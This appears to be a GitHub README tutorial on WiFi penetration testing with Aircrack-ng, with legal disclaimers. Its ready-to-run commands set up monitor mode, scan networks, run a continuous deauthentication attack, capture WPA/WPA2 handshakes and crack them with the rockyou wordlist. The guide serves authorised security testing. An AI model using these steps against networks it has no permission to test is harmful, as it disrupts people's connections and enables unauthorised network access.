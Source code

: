 # WiFi Penetration Testing with Aircrack-ng

This guide provides a step-by-step process for performing WiFi penetration testing using Aircrack-ng to capture and crack WPA/WPA2 handshakes.

## Prerequisites
- Linux system (Kali Linux recommended)
- WiFi adapter that supports monitor mode
- Aircrack-ng suite installed (`sudo apt install aircrack-ng`)
- Wordlist for password cracking

## Setup WiFi Adapter (Monitor Mode)

1. Check current mode:
   ```bash
   iwconfig
   ```
   (Look for mode=managed)

2. Kill interfering processes:
   ```bash
   sudo airmon-ng check kill
   ```

3. Start monitor mode:
   ```bash
   sudo airmon-ng start wlan0
   ```
   (Replace `wlan0` with your interface name)

4. Verify monitor mode:
   ```bash
   iwconfig
   ```
   (Should show mode=monitor and new interface name like wlan0mon)

## Scan for Nearby Networks

```bash
sudo airodump-ng wlan0mon
```
(Replace `wlan0mon` with your monitor interface)

Note down:
- BSSID (MAC address of target AP)
- CH (channel number)
- ESSID (network name)

## Capture Handshake

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w <output_file> wlan0mon
```
Example:
```bash
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 6 -w capture wlan0mon
```

This will create a `.cap` file. Wait until you see `[WPA handshake: <BSSID>]` in the top right corner.

## Accelerate Handshake Capture (Deauth Attack)

In a new terminal:
```bash
sudo aireplay-ng --deauth 0 -a <BSSID> -c <client_MAC> wlan0mon
```
(Use 0 for continuous deauth, or specify a number of packets)

## Check for Captured Handshake

```bash
ls
```
Look for `.cap` file (e.g., `capture-01.cap`)

## Crack the Handshake

```bash
aircrack-ng <capture_file.cap> -w <wordlist_path>
```
Example:
```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Cleanup

1. Stop monitor mode:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```

2. Restart network manager:
   ```bash
   sudo systemctl start NetworkManager
   ```

## Legal Disclaimer

This guide is for educational and authorized penetration testing purposes only. Unauthorized access to computer networks is illegal. Always obtain proper authorization before testing any network.

## Wordlists

Popular wordlists for password cracking:
- rockyou.txt (Download from Github)
- SecLists (https://github.com/danielmiessler/SecLists)
- CrackStation wordlist (https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

## Legal & Ethical Notice
- This guide is for **educational purposes only**.
- Unauthorized WiFi hacking is **illegal** in most countries.
- Only test networks you own or have **explicit permission** to audit.
- The author is not responsible for misuse of this information.

Happy (Ethical) hacking! 😊
